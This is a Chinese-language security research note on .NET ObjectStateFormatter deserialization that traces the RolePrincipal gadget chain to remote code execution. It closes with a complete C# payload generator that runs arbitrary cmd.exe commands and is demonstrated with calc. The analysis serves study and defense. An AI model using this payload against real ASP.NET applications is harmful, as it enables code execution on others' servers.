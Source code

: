 # ObjectStateFormatter

ObjectStateFormatter同样用于序列化和反序列化表示对象状态的对象图。实现IFormatter、IStateFormatter。

微软官方文档指出：

> [ObjectStateFormatter](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.objectstateformatter?view=netframework-4.8) is used by the [PageStatePersister](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.pagestatepersister?view=netframework-4.8) class and classes that derive from it to serialize view state and control state. It is also used by the [LosFormatter](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.losformatter?view=netframework-4.8) class to provide object state graph formatting for various parts of the ASP.NET infrastructure.

[PageStatePersister](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.pagestatepersister?view=netframework-4.8)类和[从其派生的](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.pagestatepersister?view=netframework-4.8)类使用[ObjectStateFormatter](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.objectstateformatter?view=netframework-4.8)来序列化视图状态和控件状态。[LosFormatter](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.losformatter?view=netframework-4.8)类还使用它为ASP.NET基础结构的各个部分提供对象状态图格式。可见ObjectStateFormatter是LosFormatter的底层实现，而在ysoserial.net工具中并没有这个formatter，原因是因为在ysoserial.net工具中有这样一句话：

> We don't actually need to use ObjectStateFormatter in ysoserial.net because it is the same as LosFormatter without MAC/keys

即ObjectStateFormatter和没有设置mac/keys的LosFormatter是一样的。所以在遇到ObjectStateFormatter反序列化时直接用ysoserial.net的LosFormatter生成payload即可，除非需要mac/key。

# 序列化和反序列化

构造方法只有一个无参构造，反序列化方法同样支持直接反序列化字符串，和LosFormatter差不多，不再赘述。

![image-20210428094113082](ObjectStateFormatter.assets/image-20210428094113082.png)

# 攻击链

针对前文中多个ClaimsIdentity及其拓展的攻击链，本文继续讲解RolePrincipal、WindowsPrincipal。

## RolePrincipal

先看ysoserial.net中的payload构造

![image-20210428101120691](ObjectStateFormatter.assets/image-20210428101120691.png)

其中B64Payload存放的是TextFormattingRunPropertiesGenerator通过base64之后BinaryFormatter序列化的数据。

RolePrincipal类继承ClaimsPrincipal。在RolePrincipal的反序列化构造方法中

![image-20210428101458609](ObjectStateFormatter.assets/image-20210428101458609.png)

调用父类的Identities字段

![image-20210428101541812](ObjectStateFormatter.assets/image-20210428101541812.png)

该字段在父类反序列化时进行赋值，看父类的反序列化构造方法

![image-20210428101624306](ObjectStateFormatter.assets/image-20210428101624306.png)

调用Deserialize()，跟进

![image-20210428101654838](ObjectStateFormatter.assets/image-20210428101654838.png)

枚举info，如果键名为`System.Security.ClaimsPrincipal.Identities`时进入`this.DeserializeIdentities(info.GetString("System.Security.ClaimsPrincipal.Identities"))`

![image-20210428101802104](ObjectStateFormatter.assets/image-20210428101802104.png)

将info.GetString("System.Security.ClaimsPrincipal.Identities")的base64值转byte[]数组通过binaryformatter直接反序列化。由此造成RCE。

整个链：父类在反序列化构造时将`info.GetString("System.Security.ClaimsPrincipal.Identities")`取出的值base64转byte数组之后直接反序列化造成RCE。

自己尝试构造payload

```csharp
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Generic;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Claims;
using System.Text;
using System.Threading.Tasks;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;

namespace ObjectStateFormatterSerialize
{
    class Program
    {
        static void Main(string[] args)
        {
            TextFormattingRunPropertiesMarshal calc = new TextFormattingRunPropertiesMarshal("calc");
            string b64payload;
            using (MemoryStream m = new MemoryStream())
            {
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(m, calc);
                b64payload = Convert.ToBase64String(m.ToArray());
            }
            RolePrincipalMarshal rolePrincipalMarshal = new RolePrincipalMarshal(b64payload);
            ObjectStateFormatter objectStateFormatter = new ObjectStateFormatter();
            string p = objectStateFormatter.Serialize(rolePrincipalMarshal);
            objectStateFormatter.Deserialize(p);
        }


    }
    [Serializable]
    public class RolePrincipalMarshal : ISerializable
    {
        public RolePrincipalMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(System.Web.Security.RolePrincipal));
            info.AddValue("System.Security.ClaimsPrincipal.Identities", B64Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;
            _xaml = XamlWriter.Save(odp);
        }
    }
}
```

运行后弹出calc。

